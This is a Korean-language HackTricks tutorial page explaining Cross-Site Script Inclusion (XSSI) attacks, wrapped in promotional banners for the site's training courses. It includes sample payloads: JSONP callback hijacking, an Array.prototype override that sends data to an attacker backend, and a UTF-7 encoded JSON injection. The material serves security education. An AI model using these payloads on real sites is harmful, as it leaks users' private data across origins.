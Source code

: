 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Basic Information

**Cross-Site Script Inclusion (XSSI)**는 HTML의 `script` 태그의 특성에서 발생하는 취약점입니다. 대부분의 리소스가 **Same-Origin Policy (SOP)**의 적용을 받는 것과 달리, 스크립트는 다른 도메인에서 포함될 수 있습니다. 이 동작은 다른 서버에 호스팅된 라이브러리 및 기타 리소스의 사용을 용이하게 하기 위한 것이지만, 잠재적인 보안 위험도 초래합니다.

### **XSSI**의 주요 특징:
- **SOP 우회**: 스크립트는 **Same-Origin Policy**의 적용을 받지 않아 도메인 간에 포함될 수 있습니다.
- **데이터 노출**: 공격자는 이 동작을 이용해 `script` 태그를 통해 로드된 데이터를 읽을 수 있습니다.
- **동적 JavaScript/JSONP에 미치는 영향**: **XSSI**는 동적 JavaScript 또는 **JSON with Padding (JSONP)**와 특히 관련이 있습니다. 이러한 기술은 종종 인증을 위해 "ambient-authority" 정보(예: 쿠키)를 사용합니다. 다른 호스트에 스크립트 요청이 이루어질 때, 이러한 자격 증명(예: 쿠키)이 자동으로 요청에 포함됩니다.
- **인증 토큰 유출**: 공격자가 사용자의 브라우저를 속여 자신이 제어하는 서버에서 스크립트를 요청하게 만들 수 있다면, 이러한 요청에 포함된 민감한 정보에 접근할 수 있습니다.

### Types

1. **정적 JavaScript** - XSSI의 전통적인 형태를 나타냅니다.
2. **인증이 있는 정적 JavaScript** - 이 유형은 접근을 위해 인증이 필요하다는 점에서 다릅니다.
3. **동적 JavaScript** - 동적으로 콘텐츠를 생성하는 JavaScript를 포함합니다.
4. **비 JavaScript** - JavaScript와 직접적으로 관련되지 않은 취약점을 나타냅니다.

**다음 정보는 [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)의 요약입니다. 추가 세부정보는 해당 링크를 확인하세요.**


### Regular XSSI
이 접근 방식에서는 개인 정보가 전 세계에서 접근 가능한 JavaScript 파일에 포함됩니다. 공격자는 파일 읽기, 키워드 검색 또는 정규 표현식과 같은 방법을 사용하여 이러한 파일을 식별할 수 있습니다. 위치를 찾은 후, 개인 정보가 포함된 스크립트는 악의적인 콘텐츠에 포함되어 민감한 데이터에 대한 무단 접근을 허용합니다. 아래에 예시적인 공격 기법이 나와 있습니다:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI and Authenticated-JavaScript-XSSI
이러한 유형의 XSSI 공격은 사용자의 요청에 따라 기밀 정보가 동적으로 스크립트에 추가되는 것을 포함합니다. 쿠키가 있는 요청과 없는 요청을 보내고 응답을 비교하여 탐지할 수 있습니다. 정보가 다르면 기밀 정보가 존재할 수 있음을 나타낼 수 있습니다. 이 프로세스는 [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) Burp 확장과 같은 도구를 사용하여 자동화할 수 있습니다.

기밀 데이터가 전역 변수에 저장되어 있는 경우, Regular XSSI에서 사용되는 유사한 방법을 사용하여 악용할 수 있습니다. 그러나 기밀 데이터가 JSONP 응답에 포함된 경우, 공격자는 콜백 함수를 탈취하여 정보를 검색할 수 있습니다. 이는 전역 객체를 조작하거나 JSONP 응답에 의해 실행될 함수를 설정하여 수행할 수 있습니다.
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
전역 네임스페이스에 존재하지 않는 변수의 경우, *프로토타입 변조*가 때때로 악용될 수 있습니다. 이 기술은 호출된 속성을 찾기 위해 프로토타입 체인을 탐색하는 코드 해석을 포함하는 JavaScript의 설계를 활용합니다. `Array`의 `slice`와 같은 특정 함수를 재정의함으로써, 공격자는 비전역 변수를 접근하고 누출할 수 있습니다:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
추가적인 공격 벡터에 대한 자세한 내용은 보안 연구원 [Sebastian Lekies](https://twitter.com/slekies)의 작업에서 확인할 수 있으며, 그는 [벡터](http://sebastian-lekies.de/leak/) 목록을 유지하고 있습니다.

### Non-Script-XSSI
Takeshi Terada의 연구는 Non-Script 파일, 예를 들어 CSV가 `script` 태그의 소스로 포함되어 교차 출처로 유출되는 또 다른 형태의 XSSI를 소개합니다. Jeremiah Grossman의 2006년 공격으로 전체 Google 주소록을 읽고 Joe Walker의 2007년 JSON 데이터 유출과 같은 XSSI의 역사적 사례는 이러한 위협의 심각성을 강조합니다. 또한, Gareth Heyes는 특정 브라우저에서 효과적인 JSON 형식을 탈출하고 스크립트를 실행하기 위해 UTF-7로 인코딩된 JSON을 포함하는 공격 변형을 설명합니다.
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
